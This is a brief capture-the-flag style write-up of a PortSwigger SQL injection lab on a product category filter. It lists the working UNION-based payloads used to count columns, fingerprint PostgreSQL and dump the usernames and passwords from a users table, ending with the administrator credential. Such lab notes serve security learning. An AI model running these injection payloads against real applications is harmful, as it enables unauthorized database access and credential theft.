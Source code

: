 **SQL Injection: Product category filter**

*- Goal: retrieve all the usernames and passwords in related table and login as `administrator` user*
*- Hint: https://portswigger.net/web-security/sql-injection/cheat-sheet*
*- Analyse:*

1. Determine # of the columnns that the vulnerable query is using
> ` ' order by 1--`: not displayed on the page

> ` ' order by 2--`: displayed on the page

> ` ' order by 3--`: appears Internal Server Error --> 2 columns
2. Determine data type of the columns
> ` ' UNION select NULL,'a'--`: 
> no Error --> second column is data type of string
3. Retrieve datas
> ` 'UNION SELECT NULL,username FROM users--`: appear username 'administrator'

> ` 'UNION SELECT NULL,password FROM users--`: appear list of password

> But we don't know what exactly password is used for administrator. Use cheetsheat.

> ` 'UNION SELECT NULL,version()--` : check type and version of database
> 
PostgreSQL 12.20 (Ubuntu 12.20-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit

> ` 'UNION SELECT NULL, username ||'*'|| password FROM users--`: 
administrator*xabhz40mdkt8rom13hmj

*`LAB SOLVED`*
![alt text](result.png)
